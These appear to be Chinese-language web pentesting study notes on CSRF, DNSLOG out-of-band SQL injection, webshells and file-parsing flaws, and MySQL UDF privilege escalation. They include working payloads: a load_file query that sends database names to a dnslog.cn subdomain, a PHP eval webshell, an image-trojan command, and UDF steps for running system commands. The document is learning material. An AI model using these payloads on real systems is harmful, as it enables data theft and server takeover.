 # CSRF跨站伪造请求

> **待办事项**
>
> - [ ] CSRF PoC是什么？

- 攻击过程

1. 存储请求

2. 触发请求

- 通过**burp**截获客户端发送修改请求的数据包，然后使用**burp**自带工具**CSRF PoC**生成CSRF攻击，也就是将请求保存下来，再通过这个工具重新回到网站伪造请求对该用户的数据进行修改。

  `test.php?DE=PHPINFO();`

- 网站后台：上传文件漏洞，上传木马，获取网站操作权限

# DNSLOG注入

> 漏洞利用：
>
> dns解析地址的时候会将别人询问的域名记录下来。



​	首先，先了解一下**盲注**是什么：向服务器问问题。比如说下面这个语句，就是在`url`后面的参数中传递这样一串sql语句，如果返回的没有内容或者是错误，那这个服务器的数据库名称不是以k开头的。

```mysql
select * from news where id=1 and substr(database(),1,1)='k'
```

如果像上面这个一个一个的问，那会很麻烦。

**oob：out of band **数据外带

- **实例分析**

在`dnslog.cn`中显示管理员密码

1. 查数据库的库名:`select database();`

2. 拼接`concat：select concat('b','a');`->显示ba

子查询：`concat((select database()),'.d0vag1.dnslog.cn');`

3. 让目标访问构造的域名

`load_file('//C:/target/.../1.txt') 使用unc路径//`

读取文件内容，本地与远程都ok

最终结果:

```mysql
load_file(concat('//',(select database()),'.域名/1.txt'));
select hex(password) from admin limit 1,1
```

使用hex编码的目的是为了区分传来数字的大小写

 # 文件解析漏洞

> 待办事项
>
> - [ ] src？？应急响应中心：应付甲方
> - [ ] 用什么解析，找到什么漏洞，怎么利用的。
>
> - [ ] 你测过什么漏洞？？？

- **web shell**

  web的含义是需要服务器开放web服务；shell是一个人机交互界面

  木马可以帮助拿到shell，以达到控制网站服务器的目的。

  执行从用户那边取得的信息：

  `<?php @eval($_REQUEST[test]) ?>`

- **shell管理工具**：中国菜刀，中国蚁剑，冰蝎

- **上传木马**：找一个上传点，将木马传入到目标服务器。木马的作用是在目标服务器中为我们提供想要的内容。木马以某种形式保存到目标机器

- 木马生效是因为解析：asp cer asa asmx svc png/.php

> 上传绕过、找规则、限制类型、上传规则、保存规则、规律规则

- **图片马**：`COPY 1.png/b+a.php b.png`

  `b.png`中已经被注入木马

- **phpStudy nginx 漏洞解析**：`123.png/.php?a=phpinfo()`将图片当成`.php`文件进行解析，双击电脑编程服务器，并且安装数据库。

> 端口：3306 密码：rootroot

- **phpmyadmin 写马**

  图片被上传到服务器的过程中被使用base64编码



# UDF提权

> 数据库提权
>
> exp：漏洞利用脚本 smbv3 exploit-db.com
>
> 有用的网站：i.zkaq.org

- 如何提权：内核漏洞 借助高权限

- 列出运行的服务：tasklist -svc

- **实例分析**

下面演示如何进入宝塔`phpadmin`进行数据库提权，执行系统命令进行权限提取。

宝塔 888/pma漏洞：`ip或域名:888/pma`可直接进入`phpMyadmin`，从而进行数据库修改。

1. **判断服务器版本**：

```mysql
select @@version_compile_os ,@@version_compile_machine,@@version;
select @@plugin_dir;
```

2. **udf.dll**

   如何获取：

   - sqlmap中获取：已经加密的

   - github搜索

   如何处理：(加密成16进制)

   1. 命令行执行：

      `certutil -encodehex -f -v udf32.dll w32x.txt 4`

   2. 数据库处理：

      ```mysql
      select hex(load_file('l64.so'))  into dumpfile  'l64.hex'
      ```

      - `outfile`:有格式的转换  `dumpfile`：原始数据格式

      - 转换的十六进制文件有空格和换行，需要将空格和换行去掉

3. **写入文件**

   `select 十六进制文件 into dumpfile ‘路径加文件名’`

4. **生成函数**

   ```mysql
   create function sys_eval returns string soname '1.so'；
   ```

5. **验证**

   ```mysql
   select * from mysql.func where name='sys_eval';
   select sys_eval('ls /')
   ```

   







